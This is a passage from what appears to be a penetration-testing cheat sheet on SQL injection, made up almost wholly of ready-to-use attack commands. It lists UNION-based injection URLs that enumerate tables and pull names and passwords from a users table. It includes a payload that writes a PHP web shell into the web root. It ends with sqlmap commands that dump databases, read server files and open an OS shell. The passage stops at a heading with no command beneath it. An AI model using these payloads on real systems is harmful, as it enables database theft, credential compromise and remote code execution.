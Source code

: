         `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `

        Enumerate database tables and column structures

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `

        Target the users table in the database

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `

        Extract the name and password

        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users `

        Create a backdoor

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`


    -   **SQLMap Examples**

      - Crawl the links

         `sqlmap -u http://$ip --crawl=1`

         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`


      - SQLMap Search for databases against a suspected GET SQL Injection

        `sqlmap –u http://$ip/blog/index.php?search –dbs`

      - SQLMap dump tables from database oscommerce at GET SQL injection

        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `

      - SQLMap GET Parameter command

         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `

      - SQLMap Post Username parameter

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`

      - SQL Map OS Shell

          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`

       - Automated sqlmap scan

          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`

        - Targeted sqlmap scan

           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`

         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump
